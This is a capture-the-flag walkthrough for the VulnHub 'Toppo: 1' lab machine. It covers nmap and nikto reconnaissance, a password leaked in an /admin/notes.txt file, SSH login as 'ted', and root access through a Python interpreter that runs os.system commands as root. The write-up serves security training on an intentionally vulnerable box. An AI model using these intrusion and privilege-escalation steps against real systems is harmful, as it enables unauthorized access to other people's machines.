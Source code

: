 # Toppo: 1 CTF Walkthrough
[VulnHub URL]
## Description:
> - The Machine isn't hard to own and don't require advanced exploitation .
> - Level : Beginner
> - DHCP : activated
> - Inside the zip you will find a vmdk file , and I think you will be able to use it with any usual virtualization software ( tested with Virtualbox) .
> - If you have any question : my twitter is [h4d3sw0rm]
> - Happy Hacking ! 

## Contents:

	1. Initial scanning & recon
	2. Obtaining credentials from a leftover file
	3. Getting root thanks to misconfigured permissions

### Initial scanning & recon

I generally use three tools during my initial scanning phase, before I begin to dig into specific services and manual analysis, these three are:
	
 - Nmap
 - Nikto
 - Dirb

Nmap:

```
$ nmap -A -p- -T5 192.168.56.101

Starting Nmap 7.40 ( https://nmap.org ) at 2018-07-26 04:58 BST
Nmap scan report for 192.168.56.101
Host is up (0.0020s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
|   1024 ec:61:97:9f:4d:cb:75:99:59:d4:c1:c4:d4:3e:d9:dc (DSA)
|   2048 89:99:c4:54:9a:18:66:f7:cd:8e:ab:b6:aa:31:2e:c6 (RSA)
|_  256 60:be:dd:8f:1a:d7:a3:f3:fe:21:cc:2f:11:30:7b:0d (ECDSA)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Clean Blog - Start Bootstrap Theme
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          55005/udp  status
|_  100024  1          59668/tcp  status
59668/tcp open  status  1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.55 seconds
```

Nikto:

```
$ perl nikto.pl -host http://192.168.56.101/
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          192.168.56.101
+ Target Hostname:    192.168.56.101
+ Target Port:        80
+ Start Time:         2018-07-26 05:05:53 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.10 (Debian)
+ Server leaks inodes via ETags, header found with file /, fields: 0x1925 0x563f5cf714e80
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
+ OSVDB-3268: /admin/: Directory indexing found.
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3268: /img/: Directory indexing found.
+ OSVDB-3092: /img/: This might be interesting...
+ OSVDB-3268: /mail/: Directory indexing found.
+ OSVDB-3092: /mail/: This might be interesting...
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /manual/images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 6544 items checked: 0 error(s) and 12 item(s) reported on remote host
+ End Time:           2018-07-26 05:06:17 (GMT1) (24 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
The Dirb report didn't yield anything overly important, so it has been omitted from the walkthrough.

From these scans I can determine that the port with the highest chance of exploitability is the HTTP (80) port, the SSH (22) port may come in handy later when valid credentials have been discovered.
The Nikto and Dirb reports both uncovered an `/admin/` directory which is accessible to unauthenticated users.

### Obtaining credentials from a leftover file

Browsing to the `/admin/` directory reveals a file called `notes.txt`:
```
Note to myself :

I need to change my password :/ **12345ted123** is too outdated but the technology isn't my thing i prefer go fishing or watching soccer .
```

So now there's a password available for later, but a username and point of entry is still needed, as there is no evident login form on the website.
Obviously the only visible entry point is through the SSH service.
Considering the admin isn't very computer literate, we can assume that he does what many others like him do, put his username / real name in the password...
**Ted** definitely stands out.
```
$ ssh ted@192.168.56.101
ted@192.168.56.101's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jul 25 23:18:19 2018 from 192.168.56.1
ted@Toppo:~$
```
And of course it works...
```
ted@Toppo:~$ whoami
ted
ted@Toppo:~$ id
uid=1000(ted) gid=1000(ted) groups=1000(ted),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth)
ted@Toppo:~$ cd /root
-bash: cd: /root: Permission denied
```
Sadly Ted isn't root, which is what I need to complete this challenge.

### Getting root thanks to misconfigured permissions

I'm not great with post-exploitation if I'm completely honest and privilege escalation has never been my primary skill.
However, I know to always look for programs that allow me to write and execute system commands on the box.
For example, with this box I quickly checked for Python:
```
ted@Toppo:~$ python --version
Python 2.7.9
ted@Toppo:/$ python
Python 2.7.9 (default, Aug 13 2016, 16:41:35)
[GCC 4.9.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.system("whoami")
root
```
Great, so Python can execute commands as root...
Time to check the `/root/` directory:
```
>>> os.system("cd /root && ls -alt")
total 24
-rw-------  1 root root   53 Apr 15 12:28 .bash_history
drwx------  2 root root 4096 Apr 15 11:40 .
-rw-r--r--  1 root root  397 Apr 15 10:19 flag.txt
drwxr-xr-x 21 root root 4096 Apr 15 10:02 ..
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root  140 Nov 19  2007 .profile
0
```
`flag.txt` is the target for this challenge, so to complete it:
```
>>> os.system("cat /root/flag.txt")
_________                                  
|  _   _  |                                
|_/ | | \_|.--.   _ .--.   _ .--.    .--.  
   | |  / .'`\ \[ '/'`\ \[ '/'`\ \/ .'`\ \
  _| |_ | \__. | | \__/ | | \__/ || \__. |
 |_____| '.__.'  | ;.__/  | ;.__/  '.__.'  
                [__|     [__|              




Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}



0
```

[VulnHub URL]: <https://www.vulnhub.com/entry/toppo-1,245/>
[h4d3sw0rm]: <https://twitter.com/h4d3sw0rm>
